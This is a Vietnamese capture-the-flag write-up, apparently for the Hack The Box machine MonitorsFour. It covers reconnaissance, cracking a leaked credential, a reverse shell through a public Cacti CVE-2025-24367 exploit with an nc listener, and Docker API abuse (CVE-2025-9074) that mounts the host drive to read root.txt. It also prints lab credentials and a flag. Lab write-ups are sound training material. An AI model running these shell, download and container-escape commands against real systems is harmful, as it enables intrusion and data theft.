# Recon 
## Nmap target 

`nmap -sC -sV -p- 10.10.11.98 -oN rs.txt`

- 80 - Nginx (web server with PHP)
- 5985 - WinRM (Windows Remote Management)

## Mở trang web ở cổng 80 

`echo "10.129.12.34 monitorsfour.htb" | sudo tee -a /etc/hosts`
## TÌm thêm được subdomain khác 

```code
ffuf -w /home/tiwza/Desktop/FuzzDir/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
     -u http://monitorsfour.htb \
     -H "Host: FUZZ.monitorsfour.htb" -ac
```
# Exploit trang quản trị 

`echo "10.129.12.34 cacti.monitorsfour.htb" | sudo tee -a /etc/hosts`
## Tìm kiếm các API khác 

```code
└─> ffuf -w /home/tiwza/Desktop/FuzzDir/SecLists/Discovery/Web-Content/raft-medium-directories.txt       -u http://monitorsfour.htb/FUZZ -ac

```
## Truy cập thử vào `user`

Thử với `token=0`

[Dùng crackstation](https://crackstation.net/)

Sau vài lần thử ta được tài khoản đúng `marcus:wonderful1`

# RCE ngay con web này CVE-2025-24367
```code
git clone https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC.git
cd CVE-2025-24367-Cacti-PoC
```
Bên phía atk 
```code
nc -lvnp 9001
```

```python
sudo /home/tiwza/Desktop/MyWWW/RedTeam/MonitorsFour/CVE-2025-24367-Cacti-PoC/venv/bin/python3 exploit.py -url http://cacti.monitorsfour.htb -u marcus -p wonderful1 -i 10.10.17.152 -l 9001
```



Lấy được flag user `d1df83dcb64e5a53ebb3f1566335522a`

# Leo thang bằng CVE-2025-9074
[CVE-2025-9074: Giúp chúng ta từ 1 máy kali chạy trong docker có thể leo ngang quyền với nguời dùng docker , nghĩa là có thể thêm sửa xóa image , container ... , thậm chí RCE được máy chủ](https://nvd.nist.gov/vuln/detail/CVE-2025-9074)
- Thep như mặc định của lỗi sẽ nằm ở `192.168.65.7:2375` tuy nhiên ở trường hợp này thì không
- Giờ ta cần tìm API để có thể mount với mạng bên ngoài 

- Lần lượt thử `curl http://172.18.0.1:2375/version` và `curl -v http://host.docker.internal:2375/version` nhưng đều không được , tuy nhiên lại đưa cho chúng ta thông tin quan trọng API có thể không phải `.254` mà có thể là cái khác 
- Vậy nên giờ sẽ thử `for i in $(seq 1 254); do (curl -s --connect-timeout 1 http://192.168.65.$i:2375/version 2>/dev/null | grep -q "ApiVersion" && echo "192.168.65.$i:2375 OPEN") & done; wait`

- Check lại với `curl http://192.168.65.7:2375/version`

- Giờ mình sẽ `cat /mnt/host_root/Users/Administrator/Desktop/root.txt`
- Ở phía máy atk thực hiện lệnh như sau :
```cmd
cat > /tmp/container.json << 'EOF'
{
  "Image": "alpine:latest",
  "Cmd": ["/bin/sh", "-c", "cat /mnt/host_root/Users/Administrator/Desktop/root.txt"],
  "HostConfig": {
    "Binds": ["/mnt/host/c:/mnt/host_root"]
  },
  "Tty": true,
  "OpenStdin": true
}
EOF

cd /tmp && python3 -m http.server 8000
```

- Sau đó tải file `container.json` vào docker  `curl http://10.10.17.152:8000/container.json -o /tmp/container.json`


- Tạo container `curl -X POST -H "Content-Type: application/json" -d @/tmp/container.json http://192.168.65.7:2375/containers/create?name=pwned1` -> có được `5be88b2d10cedbf46b961e5f0f364c79dd409c3c4ec37ae23dd39b7c1a82ce5b`

- Chạy container  `curl -X POST http://192.168.65.7:2375/containers/5be88b2d10cedbf46b961e5f0f364c79dd409c3c4ec37ae23dd39b7c1a82ce5b/start`

- Lấy đầu ra - kết quả flag `curl http://192.168.65.7:2375/containers/5be88b2d10cedbf46b961e5f0f364c79dd409c3c4ec37ae23dd39b7c1a82ce5b/logs?stdout=true`


